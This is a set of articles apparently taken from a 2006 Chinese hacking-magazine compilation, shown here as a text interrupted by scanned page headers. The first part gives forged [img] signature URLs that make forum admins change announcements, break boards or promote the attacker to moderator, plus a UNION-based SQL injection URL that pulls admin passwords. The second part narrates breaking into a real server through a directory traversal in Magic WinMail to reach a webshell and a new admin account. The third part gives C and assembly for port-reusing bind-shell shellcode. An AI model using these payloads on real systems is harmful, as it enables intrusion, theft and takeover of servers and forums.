Public Function ChkPost()
    Dim server_v1,server_v2
    Chkpost=False
    server_v1=Cstr(Request.ServerVariables("HTTP_REFERER"))
    server_v2=Cstr(Request.ServerVariables("SERVER_NAME"))
    If Mid(server_v1,8,len(server_v2))=server_v2 Then Chkpost=True
End Function
```

好，我们看看前台管理员发表公告的核心函数

```vb
Sub SaveAnn()
    If not Canpostann then
        Dvbbs.AddErrCode(28)
        Exit sub
    End if
    Dim username,title,content,bgs
    If request("username")="" then
        Response.redirect "showerr.asp?ErrCodes=<li>"&template.Strings(17)&&"&action=OtherErr"
    Else
        username=Dvbbs.CheckStr(request("username"))
    End if
    If request("title")="" then
        Response.redirect "showerr.asp?ErrCodes=<li>"&template.Strings(18)&&"&action=OtherErr"
    Else
        title=Dvbbs.CheckStr(request("title"))
    End if
    If request("content")="" then
        Response.redirect "showerr.asp?ErrCodes=<li>"&template.Strings(19)&&"&action=OtherErr"
    Else
        content=Dvbbs.CheckStr(request("content"))
    End if
    bgs=Dv_FilterJS(request("bgs"))

    Set rs=server.createobject("adodb.recordset")
    Sql="select * from Dv_bbsnews"
    If Not IsObject(Conn) Then ConnectionDatabase
    rs.open sql,conn,1,3
    rs.addnew
    rs("username")=fixjs(username)
    rs("title")=fixjs(title)
    rs("content")=content
    rs("addtime")=Now()
    rs("boardid")=Dvbbs.BoardID
    rs("bgs")=bgs
    rs.update
    rs.close:Set rs=Nothing
    If Dvbbs.BoardID>0 Then
        Dvbbs.Name = "BoardInfo_" & Dvbbs.BoardID
        Dvbbs.LoadBoardNews_Paper(Dvbbs.BoardID)
    Else
        Dvbbs.DelCahe "news"&Dvbbs.boardid
    End If
    Dvbbs.Dvbbs_suc("<li>"&Template.Strings(20))
End sub
```

整个处理函数没有对post操作进行限制，好了我们构造如下的个性签名：

```html
[img]http://www.target.com/announcements.asp?action=SaveAnn&username=admin&boardid=0&title=hacked by ilkx&Content=test[/img]
```

你可别告诉我你连个性签名都不懂怎么填写，总不会比下面这个老兄强悍吧？如图1所示。


```
[img]C:\My_Documents\photo20.jpg[/img]
```

够强悍，呵呵。个性签名构造完成后，当前台管理员浏览含有此签名的任何帖子时都能修改首页公告。大家先看看如下网站的首页公告。如图2所示。


然后我申请个账号，在基本资料修改模块中的个性签名上填写以下信息：

```
[img]http://www.arkhb.com/dvbbs/announcements.asp?action=SaveAnn&username=admin&boardid=0&title=hacked by llik&Content=test[/img]
```
如图3所示。


然后我用这样这个用户回复热帖，或者发表帖子，这样当前台管理员浏览含有我们个性签名的帖子时就会修改公告了，我模拟前台管理员浏览一下，这里我先补充一下上期recycle.asp注入漏洞的利用，我们利用动网权限提升漏洞提升为管理员之后可以使用如下的语句直接得到明文后台管理密码，结果如图4所示。


```
http://www.arkhb.com/dvbbs/recycle.asp?tablename=Dv_bbs1%20union%20select%20a201,2,L_content,4,5,6%20from%20dv_log%20where%20asc(mid(L_content,1,1))=117%20union%20select%20a201,1,1,1,1,1%20from%20dv_bbs1
```

如果前后台不是一个用户的话，我们先得到后台用户绑定的前台用户的加密信息，然后cookie欺骗就能进入后台了。如图5所示。


说了这么多废话，我们用具有前台管理权限的账号先浏览含有那个恶意个性签名的帖子。如图6所示。


个性签名没有显示出来，我们看看首页公告修改了吗？如图7所示。

呵呵，修改成功。这足以让管理员吓一跳了吧，不明原因的管理员还以为管理员账号被盗了呢。

我们再看看论坛的分版广告管理，处理代码如下：

```
Sub savebmads()
Dim master_1
```

### FIRST EXPLOIT

栏目编辑/wtf/wtf@hacker.com.cn


```asp
Dim chkedit
Dim Forum_adsinfo
Set Rs=Dvbbs.Execute("select boardmaster from dv_board where boardid="&request("boardid"))
If rs.eof and rs.bof Then Response.redirect "showerr.asp?ErrCodes=<li>您没有指定相应论坛ID，不能进行管理。&action=OtherErr"
master_1=split(rs(0),"|")
If Dvbbs.Board_Setting(35)=1 Then
chkedit=True
Else
If Dvbbs.Board_Setting(34)=0 Then
chkedit=False
ElseIf Dvbbs.Board_Setting(34)=1 and Dvbbs.membername=master_1(0) Then
chkedit=true
Else
chkedit=False
End If
End If
If Dvbbs.master Then
chkedit=true
end if
If chkedit=false Then
Response.redirect "showerr.asp?ErrCodes=<li>本项功能为主版主专用。&action=OtherErr"
Else
Forum_adsinfo=request("index_ad_f") & "$" & request("index_ad_f1") & "$" & request("index_moveFlag") & "$" & request("MovePic") & "$" & request("MoveUrl") & "$" & request("move_w") & "$" & request("move_h") & "$" & request("Board_moveFlag") & "$" & request("fixupPic") & "$" & request("FixupUr1") & "$" & request("Fixup_w") & "$" & request("Fixup_h") & "$" & request("Board_fixupFlag") & "$" & request("index_fixupFlag")
sql = "update dv_board set board_ads='"&Replace(Forum_adsinfo,"'","''")&"' where boardid="&Dvbbs.boardid&
Dvbbs.Execute(sql)
Dvbbs.ReloadBoardInfo(Dvbbs.BoardID)
response.write Dvbbs.BoardType&"广告设置成功。"
End If
End Sub
```

其中的各个参数的含义在下面的代码中我们可以清楚地找到：

```html
<form method = "POST" action = ? action=savebmads&boardid=<%=request("boardid")%>
<TABLE cellPadding=1 cellSpacing=1 class=tableborder1 align=center style="width:100%;word-break:break-all;">
<tr>
<th height="23" colSpan="2" class="tableHeader">
<b>论坛广告设置</b>(如为设置分论坛，就是分论坛首页广告，下属页面为帖子显示页面)</th>
</tr>
<tr>
<td width="40%" class="Tablebody1"><B>首页顶部广告代码</B></font></td>
<td width="60%" class="Tablebody1">
<textarea name="index_ad_f" cols="50" rows="3"><%=enfixs(Dvbbs.Forum_ads(0))%></textarea>
</td>
</tr>
<tr>
<td width="40%" class="Tablebody1"><B>首页尾部广告代码</B></font></td>
<td width="60%" class="Tablebody1">
<textarea name="index_ad_f1" cols="50" rows="3"><%=enfixs(Dvbbs.Forum_ads(1))%></textarea>
</td>
</tr>
<tr>
<td width="40%" class="Tablebody1"><B>开启首页浮动广告</B></font></td>
<td width="60%" class="Tablebody1">
<input type=radio name="index_moveFlag" value=0 <%if Dvbbs.Forum_ads(2)=0 then%>checked<%end if%>>关闭&nbsp;
<input type=radio name="index_moveFlag" value=1 <%if Dvbbs.Forum_ads(2)=1 then%>checked<%end if%>>打开&nbsp;
</td>
</tr>
<tr>
<td width="40%" class="Tablebody1"><B>论坛首页浮动广告图片地址</B></font></td>
<td width="60%" class="Tablebody1">
<input type="text" name="MovePic" size="35" value="<%=Dvbbs.Forum_ads(3)%>">
</td>
</tr>
<tr>
<td width="40%" class="Tablebody1"><B>论坛首页浮动广告连接地址</B></font></td>
<td width="60%" class="Tablebody1">
<input type="text" name="MoveUrl" size="35" value="<%=Dvbbs.Forum_ads(4)%>">
</td>
</tr>
<tr>
<td width="40%" class="Tablebody1"><B>论坛首页浮动广告图片宽度</B></font></td>
<td width="60%" class="Tablebody1">
<input type="text" name="move_w" size="3" value="<%=Dvbbs.Forum_ads(5)%>">&nbsp;象素
</td>
</tr>
<tr>
<td width="40%" class="Tablebody1"><B>论坛首页浮动广告图片高度</B></font></td>
<td width="60%" class="Tablebody1">
<input type="text" name="move_h" size="3" value="<%=Dvbbs.Forum_ads(6)%>">&nbsp;象素
</td>
</tr>
<tr>
<input type=hidden name="Board_moveFlag" value=0>
<tr>
<td width="40%" class="Tablebody1"><B>开启首页右下固定广告</B></font></td>
<td width="60%" class="Tablebody1">
<input type=radio name="index_fixupFlag" value=0 <%if Dvbbs.Forum_ads(13)=0 then%>checked<%end if%>>关闭&nbsp;
<input type=radio name="index_fixupFlag" value=1 <%if Dvbbs.Forum_ads(13)=1 then%>checked<%end if%>>打开&nbsp;
</td>
</tr>
<tr>
<td width="40%" class="Tablebody1"><B>论坛首页右下固定广告图片地址</B></font></td>
<td width="60%" class="Tablebody1">
<input type="text" name="fixupPic" size="35" value="<%=Dvbbs.Forum_ads(8)%>">
</td>
</tr>
<tr>
<td width="40%" class="Tablebody1"><B>论坛首页右下固定广告连接地址</B></font></td>
<td width="60%" class="Tablebody1">
<input type="text" name="fixupUrl" size="35" value="<%=Dvbbs.Forum_ads(9)%>">
</td>
</tr>
<tr>
<td width="40%" class="Tablebody1"><B>论坛首页右下固定广告图片宽度</B></font></td>
<td width="60%" class="Tablebody1">
<input type="text" name="fixup_w" size="3" value="<%=Dvbbs.Forum_ads(10)%>">&nbsp;象素
</td>
</tr>
<tr>
<td width="40%" class="Tablebody1"><B>论坛首页右下固定广告图片高度</B></font></td>
<td width="60%" class="Tablebody1">
<input type="text" name="fixup_h" size="3" value="<%=Dvbbs.Forum_ads(11)%>">&nbsp;象素
</td>
</tr>
<tr>
<input type=hidden name="Board_fixupFlag" value=0>
<tr>
<td width="40%" class="Tablebody1">&nbsp;</td>
<td width="60%" class="Tablebody1">
<div align="center">
<input type="submit" name="Submit" value="提 交">
</div>
</td>
</tr>
</table>
</form>
```

有了以上的信息构造恶意个性签名就是很容易的事情了：

```
[img] http://www.arkhb.com/dvbbs/dvbbs/admin_boardset.asp?action=savebmads&boardid=3&index_moveFlag=0&move_w=0&move_h=0&Board_moveFlag=0&index_fixupFlag=1&fixupPic=http%3A%2F%2Fwww.arkhb.com%2Fdvbbs%2Fimages%2Flogo.gif&fixup_w=800&fixup_h=800&Board_fixupFlag=0[/img]
```

注意如果论坛中的个性签名有长度限制，我们就不能把它放到个性签名中了，可以直接发帖子，放到帖子里，大家注意了吗，我设置的论坛首页右下固定广告图片宽度和高度都是很大的值800，这样有什么用处呢，我们浏览一下这个版面就清楚了。如图8 所示。

真是惨不忍睹啊，此时论坛的这个版面已经无法访问了。由于动网论坛的健壮性，想利用此漏洞只能实现很小一部分的前台管理操作，不过其他论坛就没有这么幸运了，我发现BBSXP 论坛可以利用来提升权限，打开BBSXP论坛的supervise.asp来看看个究竟吧。


```
省略
master=split(HTMLEncode(Request("moderated")),"|")
for i = 0 to ubound(master)
If conn.Execute("Select id From [user] where username='"&master(i)&"' ").eof and master(i)<>"" Then error ("<li>"&master(i)&"的用户资料还未注册")
next
sql="select * from bbssconfig where id='"&forumid&"'"
rs.Open sql,Conn,1,3
rs("bbsname")=HTMLEncode(Request("bbsname"))
rs("moderated")=Request("moderated")
rs("intro")=HTMLEncode(Request("intro"))
rs("icon")=HTMLEncode(Request("icon"))
rs("logo")=HTMLEncode(Request("logo"))
rs.update
rs.close
省略...构造如下地址
http://www.target.com/supervise.asp?mune=up&forumid=1&bbsname=test&moderated=liikz&intro=test
个性签名随之构造出来
[img] http://www.target.com/supervise.asp?mune=up&forumid=1&bbsname=test&moderated=liikz&intro=test [/img]
```

不管我们通过个性签名还是通过其他途径，比如给管理员发送含有如上连接的论坛短信息，使得管理员在无意间就把我们提升为论坛指定版面的斑竹了。非授权用户提升为斑竹给论坛带来的危害是非常严重的，轻则论坛相应的版块不能正常访问，重则论坛数据被恶意删除。

从上面介绍我们可以看到，这其实就是对跨站脚本攻击的一种变形，不同之处是不含有恶意脚本代码如HTML标签，所以防范起来比较困难，但是攻击起来确实相当的容易，最简单的方法就是本地建立相应的调试环境，使用w s e 等抓包工具抓取管理操作的代码，然后将其改为get方式即可，然后通过提交测试修改后的代码功能能否正常实现。如图9 所示。


### FIRST EXPLOIT

》栏目编辑/wtf/wtf@hacker.com.cn

WTF：自从iLikez在黑客防线2005第6、8、9期连续公布Dvbbs7.x漏洞以及fcon公布的一个头像提权利用以后，动网立即淹没在潮水般的攻击之下，大家也在这时尝到了脚本入侵的“好处”。这次，为了给大家换换口味，kevin又给大家带来了PHP下的一个系统漏洞，这就是很多企业使用的邮件服务器Magic WinMail。不过大家在享受作者劳动果实的时候，别忘了作者在文章末尾的那句话——“玩网络安全的，要玩的适当才有意思。

适合读者：脚本研究人员，入侵爱好者
前置知识：PHP基础

#### 我发现的 Magic WinMail 漏洞

文/图 kEvin1986 [S.4.T]

不久之前我经常去的一家音乐网站突然宣布无限期关闭，但保留VIP下载的权利，这个消息对于我这种狂热的音乐爱好者犹如晴天霹雳。但是没有办法，别人的站关不关是别人的事，而我如果想要得到这些音乐，只能操起许久不动的“邪恶”手段了。

一般来说在渗透一个网站之前，脑海中总要有一个大致的渗透思路，将以对这个站了解的信息全部挖掘出来，分析有用的部分组合应用。我首先想到的是利用以前这个站点的BBS攻击，记得是Phpwind的，因为最近出了一些漏洞，可以很方便地得到WebShell。然后想到的是以前的一些遗留页面。但是这些想法都失败了，因为关站之后，除了首页上几个关站通知以外，好像没有别的信息了。似乎在脚本上攻击不太现实。

这个站没有可以利用的地方并不代表别的站点不存在漏洞，我的第二个思路则是旁注。但是等我仔细一查，发现这个IP上只绑定了一个顶级域名，其他的二级域名也无法通过nslookup列出，看来旁注的想法也告吹。一切都像走着背运。没有办法，有点想放弃了。脚本上不行，只能看看主机的安全性了。

如果要对主机进行探测的话，需要手工的探测一些基本的开放端口然后整理一个列表，这样可以更详细的了解主机的设置情况，比使用扫描器要方便多了。于是大约在3分钟之内，我探测出来一些开放的端口：21(FTP),80(IIS),3372(MSTDS),3389(Terminal Service),8080(Apache)。对于这些端口，总体来分析一下吧，FTP上，我没有用户名与密码，采用的是Serv-U Ftp Server 6.0，如果有这个东西的密码的话，主机基本上就下来了，但是似乎得到密码很麻烦。80端口上配备着IIS 5.0，但是除了端口和一个index.asp就没有任何有价值的东西了，从这里下手也很难。

从开放的3372端口来看，主机并没有做安全策略和TCP/IP筛选，或者没有装防火墙，因为凭经验，这个端口一般有安全意识的管理员是不会开放出来的，同时证明这台主机是Server系列的。

3389，这个谁都知道，是终端服务的默认端口。登入进去以后发现是Windows 2000 Advanced Server，还有一个8080，从Telnet中得到的反馈结果来看，很有可能是Apache的Web服务器。难道这上面有一些别的什么页面可以浏览的。于是我就打开这个IP的8080端口。居然返回一个Magic WinMail Server。

记得这个WinMail曾经在25端口有个helo的漏洞，但是那个是老漏洞，新版本应该可以避免了。于是省去了找Exploit的打算。不过为了证实，我还是写了一个段程序，发送了20000字节的数据包，服务器没有挂，说明漏洞已经修补了。

似乎走到这里没辙了。但是我想，既然来了，就这么走太没意思了吧。于是准备对这个Magic WinMail Server进行一番测试。

从网上下载了一个Maigc WinMail，然后安装后进行了一番黑盒测试，结果全部失败。想想这个程序写得应该是不错的。但是它的WebMail是用PHP写成的，如果代码不严谨，PHP上就难免出漏洞。

简单地看了一下各个PHP中的脚本和函数，找到几个似乎可以利用的地方，但是由于一些限制，没有成功，但是很多地方写得的确是很不严谨。当我看到download.php的时候，突然发现了一段奇怪的代码。代码如下：

```php
/*********************codz start*********************/
<html_compress = "false";
// load session management
require('/inc/inc.php');
// check for all parameters
if ($part == "" || $folder == ""
|| $ix == "")
Header("Location: error.php?
err=3&sid=$sid&tid=$tid&lid=$lid&retid=$retid\r\n");
$mail_info = $sss["headers"][base64_encode($folder)][$ix];
$localname = $mail_info["localname"];
// check if the file exists, otherwise, do a error
if($cache) {
$fullfilename = $temporary_directory."attachments\\".$sess
["user"].'_'.md5(base64_decode($bound))."_".$filename;
if (file_exists($fullfilename))
exit;
clearstatcache();
$fp = fopen($fullfilename,"rb");
$email = fread($fp, filesize($fullfilename));
fclose($fp);
echo($email);
exit;
}
else {
if ($type == 'nonmime'){
```

www.hacker.com.cn
黑客X档案 2006精华本 下册

### FIRST EXPLOIT

})栏目编辑>wtf@hacker.com.cn

```php
$filename = base64_decode($filename);
$filename = str_replace("\\", "", $filename);
$filename = str_replace('/', '', $filename);
$filename = str_replace("..", "", $filename);
$filename = str_replace("<", "", $filename);
$filename = str_replace(">", "", $filename);
$filename = str_replace("=", "", $filename);
$filename = str_replace("#", "", $filename);
$filename = str_replace("$", "", $filename);
$fullfilename = $temporary_directory."_attachments\\".
$_SESSION['user']."_" .md5(base64_decode($bound))."_".$filename;
if (file_exists($fullfilename)){
header("Content-Type: application/rfc822");
header("Content-Disposition: attachment; filename=\"".
$filename."\"");
clearstatcache();
$fp = fopen($fullfilename,'rb');
$email = fread($fp, filesize($fullfilename));
fclose($fp);
echo($email);
exit;
}
// other codez...
// codez stop
```

其中存在问题的代码是这一段。

```php
if($cache){
$fullfilename = $temporary_directory."_attachments\\".
$_SESSION['user']."_" .md5(base64_decode($bound))."_".$filename;
if (file_exists($fullfilename))
exit;
clearstatcache();
$fp = fopen($fullfilename,'rb');
$email = fread($fp, filesize($fullfilename));
fclose($fp);
echo($email);
exit;
}
```

让我来讲解一下这段代码吧。
首先，从浏览器中取得cache值，如果值不为空，那么就开 始组合$fullfilename，然后open，再是读出所有内容并输出到浏 览器中，这里就出现问题了。我们的$filename变量没有经过 任何处理就组合到了读取的文件中。如果我们的$filename中 包含目录的跳转符号的话，那么我们就可以跨越目录读取文 件了。似乎是个好“兆头”。先去利用一下看看。
到了那个网站的8080端口，从WebMail注册一个用 户进去。提示成功，然后从我的邮箱中发一封带附件的 邮件到这个新的邮箱中，得到收到邮件以后，我们就开 始来利用一下这个漏洞吧。
在收到的邮件中点开附件，然后按F11将全屏掉IE窗 口，再地址栏后输入&cache=kevin1986 &filename=../../ /../index.php 回车一下，果然读出了index.php的内容。如图1所示。
这一下好办了，我只要去读一些默认的配置文件就可 以读到比如Metabase.bin，因为在默认配置下，Magic Winmail 是以LocalSystem权限启动的，所以相应的Apache服务也是以 LocalSystem权限启动的，所以metabase.bin是可以读到的。
但是我的目的地是要下载，文件名这些东西是必要 的，从那个中读到路径可以，但是文件名就不行了。所


图1

以我得想别的办法，先看看这个Magic WinMail的安装目 录吧，猜一个，多加几个../../来到根目录，然后读boot.ini， 结果正确返回其中的内容，说明Magic WinMail的目录安 装在C盘，似乎Magic WinMail本身不是很好玩，干脆去 读读别的东西吧，比如Serv-U。
试着读../../../../../../program files/Serv-U/Readme. txt发现存在，说明Serv-U安装在C盘里。那么读读 ServUDaemon.ini吧。
果然不出我所料读出来了，而且管理员似乎很喜欢 在注释中写一些很敏感的东西，比如密码，这不是明摆着 放我的水吗？不管了，先从Serv-U里进去，然后发现站 点目录下还有一个vipdownloadsmusic目录，在E中一访 问，居然全部是打包好的音乐，足足6个GB呀！“爽”死 我了，挑选几个比较喜爱的New Age风格的piano solo 专辑下载，然后睡觉去了。有一些兴奋，但是总觉得不 爽，至少我总觉得有些东西还没做够，是什么呢？哦，贪 心的坏毛病又来了，拿下主机吧，看看是不是还有别的 什么好的音乐。这个站的站长可是收集稀有的音乐碟出 名的呀！
从FTP上写一个WebShell进去，浏览了一下C盘，发现 做了限制，但是从刚才跳转的目录来看，一般是默认安装 位置，那么就直接进C:\Magic WinMail Server目录，“很 好很好”，什么都能做，包括在Magic Winmail的Webmail 目录中写的权限。我随便写一个PHP代码进到主机里，然 后执行命令。如图2所示。


图2

由于权限是最高的关系，很轻松地加进了用户，并 且进入了终端服务器。但是很遗憾，别的盘中除了备份文 件，再没有别的东西了。有点“沮丧”的给管理员发了 封邮件，然后删除用户走人……玩黑客的，要玩得适当 才有意思。不是吗？

光盘邮购电话： 010-68975555 网通集团公司 网站： http://www.hacker.com.cn 2006 精华本 下册

WTF：最近网络上开始流传各种各样的ShellCode，很多朋友都开始关注ShellCode的编写和相关技术的实现方法。黑防不断推出的“菜鸟版Exploit编写指南”系列文章受到很多热爱系统漏洞的朋友们的喜爱，但大家在了解基本的漏洞调试、利用方法后，开始关注更高层次的ShellCode的编写。本期“溢出研究”栏目推出了《打造Windows下自己的ShellCode》一文，讲解了Windows下ShellCode的编写步骤，并且以打开DOS窗口的代码为例，详细介绍了编写、提取ShellCode的整个过程。但开一个本地DOS窗口的功能还是略显简陋。在网络环境下，ShellCode至少要能开一个网络连接后门，或者能上传下载文件才算有用。所以本文文章更实际一点，难度也高些。希望给国内的网络安全爱好者们送上一道色香味具全的大餐！

适合读者：漏洞研究员、入侵爱好者
前置知识：C、汇编代码阅读能力，调试工具使用方法


#### ShellCode编写实例

文/图 ww0830

##### ——突破防火墙的ShellCode

现在网络上获得控制台的ShellCode要么是在目标机上开一个端口，等待攻击者连接；要么是让目标机主动连接攻击者的主机，俗称反向连接。但前一种方法一般都会被防火墙挡住，而后者反连不但需要攻击者有一个公网IP，而且也会被目标禁止外连访问的防火墙挡掉。那有没有更好的办法呢？当然有！不然大家认为WTF老大会让我在这里瞎折腾？

第一种方法就是复用攻击时的Socket。我们在给目标机发送攻击字符串的时候使用了Socket，如果还存在，我们把它找到并回收利用。ShellCode完成的功能是查找进程中所有的Socket并依次判断，如果确定是发送攻击字符串的Socket，就使用它来传文件，开后门等。

第二种方法是复用端口。作为服务器，防火墙总会打开服务所需要的端口，比如FTP的21端口，IIS的80端口等。我们在ShellCode中可以复用这些防火墙打开的端口，并完成自己想要的功能。

第三种方法是终止目标机器上的FTP或IIS等服务，然后再占用21、80等端口。这种方法在方法二失败的情况下可以使用。

还有一些其他的方法，比如红色代码蠕虫使用的Hook技术，它是把TcpSockSend函数替换掉，这样发给任何客户的信息都是“Hacker by Chinese”，我们也可以把接收函数Recv函数Hook掉，保证即执行攻击者发过去的命令，又不影响正常的服务。

另外还可以查找Socket，把所有的Socket都绑定一个DOS Shell；如果知道网站的物理路径，还可以由ShellCode直接创建一个ASP木马！当然还可以添加用户，创建虚拟映射盘，直接写一个EXE木马并执行等……方法很多，要用发散性的思维考虑！只要想得到，不要管做得到做不到！哈！

不管做得到做不到？这些思路都可以实现吗？其实在《Windows下ShellCode编写初步》一文中已经讲过，ShellCode就是一段代码的机器码形式，所以只要ShellCode不要长，并符合特殊字符的规则，运行起来是不会有问题的。来个实际的编写例子吧，这里就以第二种思路——复用端口，来讲解突破防火墙的ShellCode实现。

不要长，并符合特殊字符的规则，运行起来是不会有问题的。来个实际的编写例子吧，这里就以第二种思路——复用端口，来讲解突破防火墙的ShellCode实现。

##### 1 实现复用端口

一般情况下，已经绑定的端口是不能再次被绑定的，但可以使用Setsockopt函数来改变这一点。Setsockopt函数原型如下，

```c
int setsockopt(
  SOCKET s,
  int level,
  int optname,
  const char* optval,
  int optlen
);
```

第一个参数为要改变的Socket标志符，第二个参数为选项的等级，第三个参数就是要改成的选项名了，第四个第五个参数为请求值缓冲区的指针和大小。具体实现时，把第三个参数设为SO_REUSEADDR就可以重用已绑定的端口。代码如下：

```c
BOOL val = TRUE;
setsockopt(listenFD, SOL_SOCKET, SO_REUSEADDR, (char *)&val, sizeof(val))
```

其他代码和一般的后门编写一样。怎么样，很简单吧？

> > WTF：该方法只有在原来的程序没有使用SO_EXCLUSIVEADDRUSE选项来绑定端口的情况下才能使用SO_REUSEADDR成功。如果使用了SO_EXCLUSIVEADDRUSE选项，就只能用其他的方法绑定端口了。

##### 2 后门的编写

端口可以重用之后，总要加点功能来显示这种方法

的优劣吧？空说复用端口有什么用呢？所以再加上一个大家都看得见的功能 给连接端口的客户开一个远程的Shell。
开远程的Shell比较简单，用CreateProcess函数建立CMD进程，并把进程的输入输出和错误句柄都换成我们的Socket就可以了。注意这里的Socket要用WSASocket函数建立才能这样替换，而用Socket函数建立的函数就只能用管道来通信了。这些不在本文的讨论之内，大家可以参看以前和将来的黑防，相信都会有讲的。
C实现的程序如下。

```c
int main()
{
WSADATA ws;
SOCKET listenFD;
int ret;
//初始化wsa
WSAStartup(MAKEWORD(2,2),&ws);
//注意要用WSASocket
listenFD = WSASocket(AF_INET, SOCK_STREAM,
IPPROTO_TCP, NULL, 0, 0);
//设置套接字选项，SO_REUSEADDR 选项就是可以实现端口重绑定的
//但如果指定了SO_EXCLUSIVEADDRUSE，就不会绑定成功
BOOL val = TRUE;
setsockopt(listenFD, SOL_SOCKET, SO_REUSEADDR, (char *)&val, sizeof(val));
//监听本机21端口
struct sockaddr_in server;
server.sin_family = AF_INET;
server.sin_port = htons(21);
server.sin_addr.s_addr = inet_addr("127.0.0.1");
ret=bind(listenFD,(sockaddr *)&server,sizeof(server));
ret=listen(listenFD,2);
//如果客户请求21端口，接受连接
int iAddrSize = sizeof(server);
SOCKET clientFD=accept(listenFD,(sockaddr *)&server,
&iAddrSize);
STARTUPINFO si;
ZeroMemory(&si,sizeof(si));
si.dwFlags = STARTF_USESHOWWINDOW|
STARTF_USESTDHANDLES;
//设置为输入输出句柄为Socket
si.hStdInput = si.hStdOutput = si.hStdError = (void *)clientFD;
char cmdLine[] = "cmd";
PROCESS_INFORMATION ProcessInformation;
//建立进程
ret=CreateProcess(NULL,cmdLine,NULL,NULL,1,0,NULL,NULL,
&si,&ProcessInformation);
return 0;
}
```

测试一下，先安装一个Serv_U FTP服务器，那么它会打开21端口。如果Telnet 21端口，就会得到Serv_U的Banner，如下图1所示。


现在执行我们的程序就会重新绑定21端口。用“Netstat –an”查看，会发现有两个21端口在监听，一个是IP是0.0.0.0，一个是127.0.0.1。如图2所示。


现在再Telnet 21端口，这次得到的是Shell！哈哈，没错，我们的程序抢掉了Serv_U用的21端口，突破成功！如图3所示。


##### 汇编的编写

C程序代码成功实现后，就要把它变为有ShellCode特点的汇编了。
《打造Windows下自己的ShellCode》一文中分析过，Windows下函数的调用是先将参数从右到左入栈，然后Call函数的地址，所以首先要找出所有函数的地址并记下来。
我写了个“FindAddress.cpp”来查找这次所有要用到的函数地址。先LoadLibrary函数所在的Dll，再GetProcAddress函数名，最后打印出得到的地址。以后要查找其他函数地址时，只要更改LoadLibrary和GetProcAddress参数里的Dll名和函数名就可以了。
在我的系统XP sp0下，执行的效果如图4所示。
在汇编代码中，把找出来的函数地址保存下来以备后用。这里用的是固定的API函数地址，以后介绍了动态获取函数地址后，只需要加上动态查找那部分，后面部分保持不变就能继续使用了。这也算是一种工程的思路吧。
地址找到后，开始实现每个函数，函数实现完毕，


# 黑客防线 2006 精华奉献本 下册

## 栏目编辑 / 刘流 liuliu@hacker.com.cn


汇编就写出来了。
第一个是WSAStartup(MAKEWORD(2,2),&ws)，随便减Esp 0x200，将Esp作为WS的地址，而MAKEWORD(2,2)就是0x202，所以直接Push 0x202就可以了。汇编实现如下：

```asm
sub esp, 0x200
push esp          // 第二个参数 &ws
push 0x202        // 第一个参数 0X202
call dword ptr [ebp + 0x8]
//[ebp+0x8]中存着WSAStartup的地址，执行
add esp, 0x200
```

第二个是执行WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0)，这有点麻烦，那些参数值是多少呢？有一种方法是点右键，选择“goto 定义”，就可以找到对应的值，但遇到参数比较多的时候就比较慢。另一种方法是借用写好的C程序，按F10进入调试，按Debug工具栏上的Disassemble按钮，就会出现对应的汇编代码，如图5所示。


看，对应的值不就出来了吗？我们只要仿照着，依次Push 0 0 0 6 1 2，再Call WSASocketA函数的地址就行了。以前说过，WSASocketA函数执行完后，EAX会存放函数的返回值，所以这里的EAX就是建立的Socket，我们把它保存在Ebx中，在后面会用。

```asm
mov ebx, eax          // save Socket to ebx
```

下一句是setsockopt(listenFD, SOL_SOCKET, SO_REUSEADDR, (char *)&val, sizeof(val))，用同样的方法，就能知道Sizeof(val)=4，SO_REUSEADDR为4，SOL_SOCKET为0FFFFh。那第四个参数(char *)&val怎么表示呢？
其实Val=true，就是0x00000001，那么&val就是0x00000001的地址，我们在堆栈中构造出0x00000001，把它的地址当参数就可以了。

```asm
mov eax, 0x00000001
push eax
mov esi, esp      //把&val存在esi中。
```

再执行Setsockopt就是

```asm
push 4            // 第五个参数sizeof(val)= 4
push esi          // 第四个参数 &val
push 4            // 第三个参数SO_REUSEADDR
push 0FFFFh       // 第二个参数 SOL_SOCKET
push ebx          // 第一个参数，WSASocket建立的Socket
Call dword ptr [ebp+0x16]
//[ebp+0x16]中存着setsockopt的地址，执行
```

OK！瞬间完成了一半的工作量，看着汇编一段一段地写好，真是件惬意的事啊！
好了，该第四个函数了：bind(listenFD,(sockaddr *)&server,sizeof(server))，方法同上，第二个参数&server是一个sockaddr_in结构的地址，而且里面还有对端口、地址的设置，就是这三句：

```c
server.sin_family = AF_INET;
server.sin_port = htons(21);
server.sin_addr.s_addr = inet_addr("127.0.0.1");
```

怎么转换比较简单呢？还是借助C程序的调试过程！在调试时，从Debug工具栏上调出Memory窗口，输入Server就可以看到Server这个结构的值，在赋值完毕之后，变成了02 00 00 15 7F 00 00 01，如图6所示。


通过这个过程还知道，第一个0002是AF_INET，1500是htons(21)，最后的0100007F是Inet_addr("127.0.0.1")得到的值。我们就依着葫芦画瓢，模仿着构造出Server的值，并把地址给Esi保存，代码如下：

push 0x0100007F
push 0x15000002
mov esi,esp
// 构造 server 的值，并把地址赋给 esi

有了 Server 参数后，就可以执行 Bind 函数了：

push 10h        // 第三个参数 sizeof(server) = 10h
push esi        // 第二个参数 server 的地址
push ebx        // 第一个参数 Socket
call dword ptr [ebp+0x20]
//[ebp+0x20]中存着 bind 的地址，执行

那接下来的 listen(listenFD,2)就太简单了，实现如下

push 2;         // 第二个参数 2
push ebx;       // 第一个参数 Socket
call dword ptr [ebp+0x24];
//[ebp+0x24]中存着 listen 的地址，执行

随后的 Accept(listenFD, (sockaddr *)&server, &iAddrSize)也能轻松搞定，为

push 10h        // 构造 iAddrSize, 地址为 esp
push esp        // 第三个参数 &iAddrSize
push esi        // 第二个参数 &server
push ebx        // 第一个参数 Socket
call dword ptr [ebp+0x28]
//[ebp+0x28]中存着 accept 的地址，执行

当然,因为后面要用到 Accept 后产生的 Socket,所以把它保存在 Ebx 中。

mov ebx,eax    //把新 Socket 保存在 ebx 中

这样就遇到了最关键的决定成败的 B O S S:
"CreateProcess(NULL,cmdLine,NULL,NULL,1,0,NULL,NULL,
&si,&ProcessInformation);"。哇,大概看一看,好多参数,真吓人! 但仔细一看,原来是纸老虎,参数基本上都是 0 和 1,要构造的只有 3 个,那就简单了。
0 和 1 就不说了,直接 P u s h 就可以了,
&ProcessInformation 最简单,因为不用赋初值,随便找个不用的地址就可以了,CmdLine 也好解决,"cmd" 就是63
6d 64 00,构造在 Ebp+0x32 中,把 Ebp+0x32 的地址当参数压就可以了。只剩下 &si 了,对它的赋值有几句话。

ZeroMemory(&si,sizeof(si));
